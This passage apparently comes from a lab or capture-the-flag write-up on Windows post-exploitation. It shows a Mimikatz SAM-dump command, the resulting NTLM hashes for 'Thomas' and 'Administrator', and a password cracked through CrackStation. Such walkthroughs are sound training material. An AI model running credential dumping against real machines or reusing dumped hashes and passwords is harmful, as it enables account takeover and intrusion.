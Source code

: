 Dumping the local SAM hashes:

```bash
lsadump::sam
```

Results:

![Untitled](Github%20ser%20a938a/Untitled%2023.png)

Hash of Thomas: 02d90eda8f6b6b06c32d5f207831101f

Hash of Administrator: 37db630168e5f82aafa8461e05c6bbd1

---

### 5.0 Cracking the NTLM hash of Thomas

I used [https://crackstation.net/](https://crackstation.net/) to crack the password of Thomas:

![Untitled](Github%20ser%20a938a/Untitled%2024.png)

Password: i<3ruby

---

[4 ) Command and Control with Empire](/CoC/README.md)
